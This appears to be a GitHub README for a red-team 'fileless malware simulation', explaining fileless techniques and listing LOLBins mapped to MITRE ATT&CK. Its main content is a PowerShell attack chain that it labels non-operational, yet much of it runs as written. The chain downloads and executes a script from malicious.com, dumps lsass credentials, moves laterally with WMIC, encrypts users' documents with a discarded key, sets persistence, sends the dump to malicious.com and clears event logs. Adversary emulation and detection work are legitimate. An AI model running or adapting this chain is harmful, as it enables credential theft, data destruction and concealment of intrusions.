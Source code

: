 
<div align="center">

# 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

---

## ❓ What Is Fileless Malware?

Fileless malware:
- Executes **entirely in RAM**
- Uses native OS tools like `PowerShell`, `rundll32`, and `WMIC`
- Reflectively injects into trusted processes
- Launches via macros, registry scripts, or LOLBins

🔒 **No files are written to disk**, making it hard to detect via signature-based AV.

---

## ✅ Is “100% Fileless” Achievable?

✔️ **Yes — in theory.**  
Chains can involve:
- Macro-based phishing
- [Reflective DLL Injection](https://attack.mitre.org/techniques/T1055/001/)
- Native binary abuse (LOLBins)
- No persistent files

⚠️ **In practice**:
- Temporary files or registry keys are often used
- Payloads live in memory
- Disk-based stubs may exist briefly

---

## 🔍 Why It Matters

- 🛡️ AV = file scanning → fails on memory-only payloads  
- 🧬 Fileless = increased stealth, dwell time, and forensic resistance  
- 🎯 Detection needs: EDRs, memory introspection, or behavioral analytics

---

## ⚠️ Legal & Ethical Use Only

This repository is for:
- Emulating **fileless threat behavior**
- Chaining [LOLBins](https://lolbas-project.github.io/)
- Simulating red/purple team adversarial tradecraft
- Safe adversary emulation in **isolated** environments

> 🔐 Use in **authorized labs only**

---

## ❌ Prohibited Usage

- 🚫 Unauthorized use is **illegal**
- 🚫 Not for real-world deployment
- 🚫 Authors **disclaim all liability**

---

## ✅ Usage Terms

By accessing this project, you confirm:
- You have **legal and ethical authorization**
- You operate in **controlled, sandboxed environments**
- You accept **full responsibility**

> ⚖️ Unsure about compliance? **Stop immediately** and consult legal authorities.

---

## 🔗 MITRE ATT&CK-Aligned PowerShell Simulation

> ⚠️ This is a **non-operational** emulation for training and detection tuning.

<details>
<summary>💥 Simulated Fileless Ransomware Chain</summary>

```powershell
# 🎯 [T1190](https://attack.mitre.org/techniques/T1190/) – Initial Access
$drop = "http://malicious.com/dropper.ps1"
IEX (New-Object Net.WebClient).DownloadString($drop)

# ⚡ [T1059.001](https://attack.mitre.org/techniques/T1059/001/) – PowerShell
$enc = "[Base64EncodedPayload]"
$bin = [System.Convert]::FromBase64String($enc)
[System.Reflection.Assembly]::Load($bin)

# 🔓 [T1548](https://attack.mitre.org/techniques/T1548/) – Privilege Escalation
Start-Process powershell -ArgumentList "-File elevate.ps1" -Verb RunAs

# 🧪 [T1003.001](https://attack.mitre.org/techniques/T1003/001/) – Credential Dumping
Invoke-Expression "rundll32 comsvcs.dll, MiniDump (Get-Process lsass).Id dump.dmp full"

# 🔍 [T1082](https://attack.mitre.org/techniques/T1082/) – Host Discovery
Get-WmiObject Win32_ComputerSystem | Select Name, Domain
Get-NetAdapter | Select Name, MacAddress

# 🌐 [T1021.001](https://attack.mitre.org/techniques/T1021/001/) – Lateral Movement
wmic /node:TargetPC process call create "powershell -File payload.ps1"

# 💣 [T1486](https://attack.mitre.org/techniques/T1486/) – Ransomware Impact
$docs = Get-ChildItem C:\Users\*\Documents -Include *.docx,*.txt -Recurse
foreach ($f in $docs) {
    $content = Get-Content $f.FullName -Raw
    $key = -join ((1..32) | ForEach { [char](Get-Random -Min 65 -Max 90) })
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32,'X'))
    $aes.IV = New-Object byte[] 16
    $enc = $aes.CreateEncryptor()
    $data = [Text.Encoding]::UTF8.GetBytes($content)
    $cipher = [Convert]::ToBase64String($enc.TransformFinalBlock($data, 0, $data.Length))
    Set-Content -Path $f.FullName -Value $cipher
}

# 📌 [T1547.001](https://attack.mitre.org/techniques/T1547/001/) – Persistence
Set-ItemProperty -Path "HKCU:\...\Run" -Name "Updater" -Value "powershell -File persist.ps1"
schtasks /create /tn "Updater" /tr "powershell -File persist.ps1" /sc onlogon /rl highest

# 📤 [T1041](https://attack.mitre.org/techniques/T1041/) – Exfiltration
$dump = [IO.File]::ReadAllBytes("dump.dmp")
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method POST -Body ([Convert]::ToBase64String($dump))

# 🧹 [T1070](https://attack.mitre.org/techniques/T1070/) – Defense Evasion
Remove-Item C:\Windows\Temp\* -Force
wevtutil cl Security; wevtutil cl Application; wevtutil cl System
```

</details>

---

## 🧩 LOLBins (Living Off the Land Binaries)

| Binary            | Function                            | Techniques                                          |
|------------------|-------------------------------------|-----------------------------------------------------|
| `rundll32.exe`   | Reflective DLL execution             | [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1055.001](https://attack.mitre.org/techniques/T1055/001/) |
| `mshta.exe`      | HTA script execution                 | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) |
| `regsvr32.exe`   | COM script loading                   | [T1218.010](https://attack.mitre.org/techniques/T1218/010/) |
| `wmic.exe`       | Remote execution, WMI abuse          | [T1047](https://attack.mitre.org/techniques/T1047/), [T1021.001](https://attack.mitre.org/techniques/T1021/001/) |
| `certutil.exe`   | Download/decode payloads             | [T1105](https://attack.mitre.org/techniques/T1105/), [T1140](https://attack.mitre.org/techniques/T1140/) |
| `msbuild.exe`    | Compile/execute C# payloads          | [T1127.001](https://attack.mitre.org/techniques/T1127/001/), [T1059.005](https://attack.mitre.org/techniques/T1059/005/) |
| `bitsadmin.exe`  | Background file transfer             | [T1105](https://attack.mitre.org/techniques/T1105/) |
| `schtasks.exe`   | Persistence via task scheduling      | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |

---

## 📚 Resources

- 🔗 [LOLBAS Project](https://lolbas-project.github.io/)
- 🔗 [MITRE ATT&CK – T1218](https://attack.mitre.org/techniques/T1218/)
- 🔗 [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🔗 [LOLGEN Chain Generator](https://lolgen.hdks.org/)
- 🔗 [LOLOL Farm Sandbox](https://lolol.farm/)
- 🔗 [PrintNightmare Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)
- 🔗 [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
